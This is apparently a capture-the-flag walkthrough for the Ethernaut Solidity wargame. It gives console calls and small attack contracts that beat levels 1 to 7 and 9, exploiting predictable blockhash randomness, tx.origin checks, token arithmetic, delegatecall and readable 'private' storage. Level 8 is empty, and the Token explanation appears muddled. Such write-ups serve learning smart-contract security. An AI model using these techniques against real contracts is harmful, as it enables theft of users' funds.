 # 1. Hello Ethernaut
The instructions ask to call the `info()` method
```
contract.info()
```
We follow the output and call:
```
contract.info1()
```
Then...
```
contract.info2()
```
To get `infoNum`, we call its public getter
```
contract.infoNum()
```
`infoNum()` returns `42` as a BigNumber, so we call `info42()`
```
contract.info42()
```
Following the output again
```
contract.theMethodName()
```
Then...
```
contract.method7123949()
```
To know what is the password, we inspect the contract's ABI
```
contract
```
We call the method `password()`
```
contract.password()
```
We finally pass the output to the `authenticate()` method
```
contract.authenticate("ethernaut0")
```

# 2. Fallback
First of all we need to send the contract an amount that is less than `0.001 ether` in order to make a contribution
```
contract.contribute.sendTransaction({from: player, value: toWei("0.0001")})
```
Afterwards, we send another non-zero amount to become an owner (received by the function `receive()`)
```
contract.sendTransaction({from: player, value: toWei(0.0000001)})
```
We can now withdraw all of the contract's balance using `withdraw()`
```
contract.withdraw()
```

# 3. Fallout
In older Solidity versions, the constructor used to defined with the contract's name.  
So, to claim ownership we call the constructor which is named by mistake `fal1out()` instead of `fallout()` 
```
contract.Fal1out()
```

# 4. Coin Flip
In order to guess the right side, we need to implement the same coin flip generation code then pass the result to the `guess()` function.  
The block time is long enough that the `block.number` doesn't change between function calls.
```Solidity
contract Hack {
    uint256 constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    
    function _guess() public view returns(bool){
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    return side;
    
    }

    function attack(address _victim) external {
        bool guess = _guess();
        ICoinFlip(_victim).flip(guess);
    }

}
```


# 5. Telephone
In order to claim ownership, we need to call the `changeOwner()` method using an intermediate contract. This way, the `tx.origin` is going to be `player` and the `msg.sender` is going to be the address of the intermediate contract `Hack`.
```
contract Hack {

    function attack(address _victim) external {
        ITelephone(_victim).changeOwner(msg.sender);
    }

}
```

# 6. Token
To increase our balance we use the `transfer()` method.  
However, in order to get the maximum of tokens, we need to ensure that our balance is equal to the maximum value of `uint256`. 
In order to get this value, we substract the amount we already have to prevent an overflow.
```
tokenContract.transfer(msg.sender, type(uint).max - tokenContract.balanceOf(msg.sender)); 
```

# 7. Delegation
```
contract.sendTransaction({from: player, to: this, value:0, data: "0xdd365b8b" })
```


 # 8. Force


 # 9. Vault
 ```
 web3.eth.getStorageAt(instance, "1")
 ```

